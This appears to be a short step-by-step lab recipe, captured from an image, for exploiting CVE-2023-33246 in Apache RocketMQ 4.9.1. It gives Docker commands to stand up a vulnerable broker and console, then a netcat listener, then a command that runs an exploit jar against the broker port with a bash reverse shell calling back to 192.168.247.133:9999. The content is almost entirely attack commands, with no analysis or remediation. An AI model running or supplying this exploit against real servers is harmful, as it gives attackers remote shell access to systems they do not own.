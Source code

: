 1. docker pull apache/rocketmq:4.9.1
2. docker pull apacherocketmq/rocketmq-console:2.0.0
3. docker run -d --name rmqnamesrv -p 9876:9876 apache/rocketmq:4.9.1 sh mqnamesrv
4. create broken.conf

5.
```
docker run -d -p 10911:10911 -p 10909:10909 -v /home/osboxes/test/conf/broker.conf:/opt/rocketmq/conf/broker.conf --name rmqbroker --link rmqnamesrv:namesrv -e "NAMESRV_ADDR=namesrv:9876" -e "MAX_POSSIBLE_HEAP=200000000" apache/rocketmq:4.9.1 sh mqbroker -c /opt/rocketmq/conf/broker.conf
```

6.
```
docker run -dit --name mqconsole -p 8080:8080 -e "JAVA_OPTS=-Drocketmq.config.namesrvAddr=mqsrv:9876 -Drocketmq.config.isVIPChannel=false" apacherocketmq/rocketmq-console:2.0.0
```

7. `https://127.0.0.1:8080`

8. `nc -lnvp 9999`

9.
```
java -jar CVE-2023-33246.jar -ip "127.0.0.1:10911" -cmd "bash -i >& /dev/tcp/192.168.247.133/9999 0>&1"
```
